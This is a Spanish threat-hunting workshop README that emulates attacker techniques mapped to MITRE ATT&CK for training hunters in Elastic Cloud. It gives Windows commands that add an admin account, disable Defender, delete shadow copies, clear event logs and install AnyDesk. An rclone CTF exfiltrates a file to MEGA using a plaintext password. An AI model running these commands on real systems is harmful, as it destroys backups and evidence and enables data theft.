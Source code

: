 # Workshop-Threat-Hunting
Que tal Hunter,

Bienvenidos a este Workshop creado para Threat Hunters.

Este repositorio contiene un conjunto de Scripts para Emular ataques avanzados operados por Humano. Además pueden encontrar todos los comandos en un solo archivo y un archivo más con los filtros para hacer hunting en Elastic Cloud.

Espero lo disfrute.

Marvin Amador
Threat Hunter

---

<center>

# **HACKING PLAYBOOK**
> Guia Para Hackers:

|Elaborado por|
|-|
|Marvin Amador|
|Threat Hunter|
 </center>

## Manual de Ataques:

- [x] Generar Rastros de un Ataque
	- [ ] EXECUTION
	- [ ] PERSISTENCE
	- [ ] PRIVILEGE ESCALATION
	- [ ] DEFENSE EVASION
	- [ ] DISCOVERY
	- [ ] COMMAND AND CONTROL
- [x] Capture The Flags
	- [ ] EXFILTRATION

## Objetivo

|Ejecutar comandos comunmente utilizados por atacantes en cada fase de la Matriz de Mitre Att&ck, esto le  permitirá al Hunter saber que es lo que debe Cazar. Por último, hay un CTF diseñado para que el Hunter comprenda como se vería un evento de Exfiltración de Datos. 
|-|

==**NOTA IMPORTANTE**:==
- La ejecución de los comandos se realiza desde el CMD. Únicaente algunos se realizan desde PowerShell y en cada sección está descrito. 
- Se recomienda que el Hunter ejecute todos los comandos de una sola vez y luego inicie la cacería en Elastic Cloud. Duración 10 min 
- Dejar para el final el CTF. 

# **LABORATORIO**

1. **EXECUTION**
- Técnica: **Scheduled Task (T1053)**
Este comando crea una tarea programada llamada "**Workshop Task 2024**" que ejecutará la calculadora de Windows diariamente a las 10:20 AM.
```
schtasks /create /tn "Workshop Task 2024" /tr "C:\Windows\System32\calc.exe" /sc daily /st 10:20
```

2. **PERSISTENCE**
- Técnica: **Registry Run Keys / Start Folder (T1060)**
Este comando agrega una entrada al Registro que ejecutará la calculadora de Windows al inicio del usuario actual.
```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "Workshop registry 2024" /t REG_SZ /d "C:\Windows\System32\calc.exe" /f
```

3. **PRIVILEGE ESCALATION**
Enumerar los miembros del grupo de administradores local es relevante para la fase de elevación de privilegios, ya que proporciona información sobre cuentas con privilegios elevados.
```
net user certuser Sisap2024 /add
net localgroup administrators certuser /add
```

4. **DEFENSE EVASION**
- Técnica: **Disable or Modify Tools (T1562.001)**
==Desactivacion de AV==
```
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName,productState /format:list
```
==**Ejecutar desde PowerShell:**==
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
```
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```

- Técnica: **Data Destruction (T1485)**
```
WMIC.exe shadowcopy delete /nointeractive
vssadmin.exe delete shadows /all /quiet
```

- Técnica: **Clear Windows Event Logs (T1070.001)**
```
wevtutil cl system
wevtutil clear-log application
wevtutil clear-log security
wevtutil clear-log setup

```

5. **DISCOVERY**
Estos comandos proporcionan información sobre usuarios, grupos, unidades compartidas y controladores de dominio, y podrían ser parte de la fase de descubrimiento, donde un atacante busca comprender la topología del sistema y sus privilegios.
- Técnica: **System Information Discovery (T1082)**
Estos comandos se utilizan para obtener información sobre la identidad del usuario y los grupos a los que pertenece. Utiliza WMIC para obtener información sobre las unidades lógicas en el sistema
```
whoami
whoami /groups
systeminfo
wmic logicaldisk get name
```

- Técnica: **System Network Configuration Discovery (T1016)**
Estos comandos se utilizan para obtener información sobre la configuración de red en un sistema Windows.
```
ipconfig
arp -a
```
- Técnica: **Permission Groups Discovery (T1069)**
Enumera los miembros del grupo local de administradores, proporcionando información sobre cuentas con privilegios elevados.
```
net localgroup administrators
```

Enumera los miembros de grupos importantes como "Domain Admins" y "Enterprise Admins".
```
net group /domain "Domain Admins"
net group "Enterprise Admins" /domain
```
- Técnica: **Active Directory Reconnaissance (T1018)**
Estos comandos se utilizan para obtener información sobre el entorno de Active Directory, incluyendo controladores de dominio y confianzas de dominio.
```
nltest /dclist:windomain.local
nltest /domain_trusts
```
- Técnica: **Network Share Discovery (T1135)**
Muestra información sobre las comparticiones de red en el sistema.
```
net share
```

- Técnica: **System Owner/User Discovery (T1033)**
Muestra una lista de unidades disponibles en el sistema.
```
fsutil fsinfo drives
```

5. **COMMAND AND CONTROL**
- Técnica: **Remote Access Software (T1219)**
Algunos atacantes utilizan herramientas de supervisión y administración remotas (RMM) como Anydesk, Atera, Splashtop, TeamViewer, ScreenConnect, LogMeIn, entre otras, para controlar remotamente a su víctima.
==**Ejecutar desde PowerShell:**==
```
# Descargar el instalador de AnyDesk
Invoke-WebRequest -Uri 'https://download.anydesk.com/AnyDesk.exe' -OutFile 'C:\Windows\Temp\AnyDesk.exe'

# Instalar AnyDesk silenciosamente
Start-Process -Wait -FilePath 'C:\Windows\Temp\AnyDesk.exe' -ArgumentList '/S'
```

# **CAPTURE DE FLAG**

---
El Desafio Final del Workshop es aprender como los Adversarios roban información utilizando la herramienta **rclone**. Para esto, el hunter deberá realizar 2 actividades:
- Utilizar Rclone para exfiltrar un archivo de texto con el nombre del hunter
- Demostrar el evento en la consola de Elastic Cloud
---
## 6. **EXFILTRATION** 

- Técnica: **Remote Access Software (T1219)**
Algunos atacantes utilizan herramientas de supervisión y administración remotas (RMM) como Anydesk, Atera, Splashtop, TeamViewer, ScreenConnect, LogMeIn, entre otras, para controlar remotamente a su víctima.

==**Ejecutar desde PowerShell:**==
```
# Descargar el instalador de AnyDesk y configuralo
Invoke-WebRequest https://downloads.rclone.org/v1.56.0/rclone-v1.56.0-windows-amd64.zip -OutFile 'C:\Windows\Temp\rclone.zip'
Expand-Archive -Path 'C:\Windows\Temp\rclone.zip' -DestinationPath 'C:\Windows\Temp\'
cd C:\Windows\Temp\rclone-v1.56.0-windows-amd64
.\rclone.exe config

# configurando rclon
n
name: cert
storage: mega
user: huntercert01@gmail.com
password: NaQ@YGls9%cUHMGu
n
y
q
# Creemos un archivo para exfiltrar
echo CTF logrado > marvinamador.txt

# Comando para exfiltrar el archivo creado
.\rclone.exe copy "C:\Windows\Temp\rclone-v1.56.0-windows-amd64\marvinamador.txt" cert: -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 3 --bwlimit 5M

```

<center>
HAPPY HUNTING!
</center>


